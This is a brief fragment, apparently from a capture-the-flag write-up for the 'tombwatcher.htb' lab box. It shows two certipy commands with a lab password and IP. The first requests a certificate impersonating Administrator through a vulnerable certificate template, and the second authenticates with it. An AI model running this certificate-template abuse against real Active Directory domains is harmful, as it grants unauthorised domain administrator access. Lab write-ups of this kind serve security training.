 ![[Pasted image 20251012125540.png]]

```bash
certipy req -u cert_admin -p 'Pwned123!' -dc-ip 10.10.11.72 -ca "tombwatcher-CA-1" -template WebServer -upn Administrator@tombwatcher.htb -application-policies 'Client Authentication'
```

```bash
certipy auth -dc-ip 10.10.11.72 -pfx administrator.pfx -username Administrator -domain tombwatcher.htb
```